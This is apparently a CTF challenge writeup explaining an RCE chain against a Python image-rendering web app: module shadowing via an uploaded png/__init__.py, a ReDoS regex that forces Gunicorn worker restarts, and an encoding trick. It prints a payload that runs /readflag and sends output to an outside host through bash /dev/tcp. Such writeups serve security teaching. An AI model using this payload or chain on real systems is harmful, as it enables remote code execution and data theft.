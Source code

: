 ## Challenge Information

- Name: Images and Words
- Type: Web + Misc
- Description:

```
BGM: [Dream Theater - Images and Words](https://www.youtube.com/watch?v=MkLIJw-fOIQ&list=PL8ANB2FxMC6WnDQDe_MS-OioyR5GEgEvC)
```

- Files provided: All the files under `docker/zeus/app_scaffold/`
- Solves: 0 / 720

## Build

```
docker-compose build
docker-compose up

# attach bash for debugging
docker ps
docker exec -it <CONTAINER ID> bash
```

## Writeup

```
*------------------------------------------------------------------------*
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|    Spoilers ahead!         Spoilers ahead!          Spoilers ahead!    |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
|                                                                        |
*------------------------------------------------------------------------*
```


This web application will render a text file to a PNG image using [pypng](https://github.com/drj11/pypng) library. The user can upload a text file under directory `png`.

The key is to identify the package name `png` happens to be the same as the upload directory name. Therefore, if the directory `png` exists, `import png` will not import the module `pypng`, but `png` in current working directory.

Thus, we can upload the python file named `__init__.py`:

```python
__import__('os').system('bash -c "/readflag>/dev/tcp/bookgin.tw/80"')
```

However, because the web server is using Gunicorn. Gunicorn uses pre-fork worker model to launch workers. The pypng module has already been loaded. Unless we manually reload it or restart the python process, it will not import the file under `png` in current work directory.

In fact, Gunicorn will monitor its worker processes. If the worker is not responsive or stuck somehow, by default [it will await 30 seconds](http://docs.gunicorn.org/en/stable/settings.html#timeout) and then restart the worker. You can notify the process id is different.

```
[2019-10-07 12:36:04 +0800] [23271] [INFO] Starting gunicorn 19.9.0
[2019-10-07 12:36:04 +0800] [23271] [INFO] Listening at: http://127.0.0.1:8080 (23271)
[2019-10-07 12:36:04 +0800] [23271] [INFO] Using worker: uvicorn.workers.UvicornWorker
[2019-10-07 12:36:04 +0800] [23274] [INFO] Booting worker with pid: 23274
[2019-10-07 12:36:04 +0800] [23274] [INFO] Started server process [23274]
[2019-10-07 12:36:04 +0800] [23274] [INFO] Waiting for application startup.
[2019-10-07 12:37:05 +0800] [23271] [CRITICAL] WORKER TIMEOUT (pid:23274)
[2019-10-07 12:37:06 +0800] [23825] [INFO] Booting worker with pid: 23825
[2019-10-07 12:37:06 +0800] [23825] [INFO] Started server process [23825]
[2019-10-07 12:37:06 +0800] [23825] [INFO] Waiting for application startup.
```

Hence we have to find an approach to make the server stuck for more than 30 seconds. The server source code strictly truncates the filename and file content. Nginx also has also set a limitation 1M for the uploaded file size. It's too difficult to upload a huge file to make the server stuck. However, in this function:

```python
def sanitize_filename(dangerous_filename):
    print(len(dangerous_filename))
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', dangerous_filename)
    safe_filename = secrets.token_urlsafe(32)[:32] if res is None else dangerous_filename
    return safe_filename
```

The regular expression is vulnerable to [ReDoS](https://en.wikipedia.org/wiki/ReDoS). If we have a file named `aaaaaaaaaaaaaaaaaaaaaa!`, the regular expression will backtrack for a large number of matches. You could try this payload in [regex101](https://regex101.com/r/61PZxD/2). By exploiting this we can make Gunicorn restart the worker process and load our malicious `png/__init__.py`.

One more thing: the server will remove the uploaded text file.

```python
def render(filename):
    src = config.UPLOAD_DIR / filename
    with open(src, 'r') as f:
        text = f.read()
    src.unlink()
    dst = config.UPLOAD_DIR / (filename + '.png')
    with open(dst, 'wb') as f:
        text2image.render(text, f)
```

To exploit, we can upload a non-UTF-8 Python file with [explicit declaration of encoding](https://www.python.org/dev/peps/pep-0263/#id8). Race condition should also work here but it's less stable. The full exploit is in `exploit`.

## Postscript

One day I was writing some Python code, and the directory name happened to conflict with a package name. Then I came out with this idea. For the Gunicorn part, I just need some execution which will take a long time. ReDoS (in fact I heard this on a USENIX conference) quickly flashed through my mind.

Although some techniques seem less useful regarding exploitation, sometimes it becomes a very important part in the RCE chain.

I hope this is a not-so-crafted challenge and hope you enjoy it!
